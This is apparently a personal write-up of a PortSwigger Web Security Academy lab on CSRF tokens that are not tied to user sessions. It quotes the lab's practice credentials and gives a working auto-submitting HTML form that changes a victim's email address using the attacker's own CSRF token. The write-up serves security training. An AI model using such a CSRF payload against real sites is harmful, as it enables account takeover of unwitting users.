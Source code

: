 # [Lab: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

## Lab

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Analysis

the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

it's mean that i can use our token to generate csrf poc.

## Solutions

my account's csrf token:

```html
<html>
  <body>
    <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@gmail.com" />
      <input type="hidden" name="csrf" value="h5WnPpnDNs3XnrBEp0oCpB8KEQ1mjY7t" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
